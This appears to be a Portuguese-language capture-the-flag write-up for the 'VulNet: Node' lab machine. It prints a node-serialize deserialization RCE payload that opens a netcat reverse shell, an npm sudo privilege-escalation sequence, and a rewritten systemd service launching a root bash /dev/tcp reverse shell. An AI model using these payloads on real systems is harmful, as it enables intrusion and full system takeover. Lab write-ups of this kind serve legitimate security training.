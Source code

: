 # _**VulNet: Node CTF**_
![](node.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website, vamos investigar  
Procurando por informações relevantes, encontramos uma página de login
Testaram-se algumas entradas como **admin** e também SQL Injection, mas sem sucesso  
Buscou-se investigar as requisições feitas quanto uma tentativa de login era feita  
Encontrou-se um cookie  

![](cookie.jpg)

Traduzindo de _URL enconde_ e _base64_, temos: **{"username":"Guest","isGuest":true,"encoding": "utf-8"}**
Realizando algumas alterações, tentamos os seguintes, após codificar em base64 e URL encode  
* {"username":"Guest","isGuest":true,"encoding": "utf-8"}
* {"username":"admin","isGuest":false,"encoding": "utf-8","role":"admin"}
* {"username":"Guest","isGuest":false,"encoding": "utf-8"}
Mas sem sucesso  
Uma nova tentativa foi feita na página principal, mas desta vez com **teste**  

![](json_return.jpg)

Temos um erro JSON  
Esse módulo, _node-serialize_ é conhecido por ser vulnerável a _**object property injection/Prototype Pollution/Remote Code Execution (RCE)**_ quando mal usado  
Pesquisando mais sobre esse erro, foi encontrado [este artigo](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e)  
Ao ler o artigo, construímos nosso _payload_ para ficar assim:
> {"username":"_$$ND_FUNC$$_function() { require('child_process').exec('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc [ip_address] [port] > /tmp/f'); }()"}

Codificamos ele para base64 cmo <mark>CyberChef</mark> e executamos com <mark>Burpsuite</mark>

![](shell.jpg)

## _**Escalando privilégios**_
Primeiro, vamos tentar o comando ```sudo -l```  

![](sudo.jpg)

Pesquisando em [GFTOBins](https://gtfobins.github.io/gtfobins/npm/), temos  

![](gftobins.jpg)

Parece que o binário é vulnerável e podemos explorar  
Executando os comandos abaixo:
> ```bash
> TF=$(mktemp -d)
> echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
> chmod 777 $TF
> sudo -u serv-manage npm -C $TF --unsafe-perm i
> ```

![](server_manager.jpg)

Agora precisamos escalar para _root_  
Vamos novamente tentar o comando ```sudo -l```  

![](new_sudo.jpg)

Localizamos os arquivos e então listamos suas permissões  

![](vuln_perm.jpg)

```vulnnet-auto.timer``` é um arquivo Timer  
Timers são arquivos de unidade do systemd cujo nome termina em ".timer" e que controlam arquivos .service ou eventos  
Timers podem ser usados ​​como uma alternativa ao cron  

```vulnnet-job.service``` é um arquivo de unidade do systemd, que é o que o systemctl referencia ao iniciar um serviço  
Ele contém informações sobre o serviço a ser executado  

![](vuln_srvice.jpg)

Parece que _ExecStart=/bin/df_ é executado  
Vamos criar um _reverse shell_ para ser executado ao invés de _/bin/df_ já que podemos alterar o arquivo em questão  
Ao tentarmos alterar o arquivo com ```nano```, tudo se torna extremamente bugado  
Tentando alterar com ```echo``` também não funciona  
A solução foi
> printf '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/[ip_address]/[port] 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service

Basta executar os comandos abaixo com ```netcat``` ligad e obter o _reverse shell_  
> ```bash
> sudo /bin/systemctl stop vulnnet-auto.timer
> sudo /bin/systemctl start vulnnet-auto.timer
> ```

Vá atrás das flags!
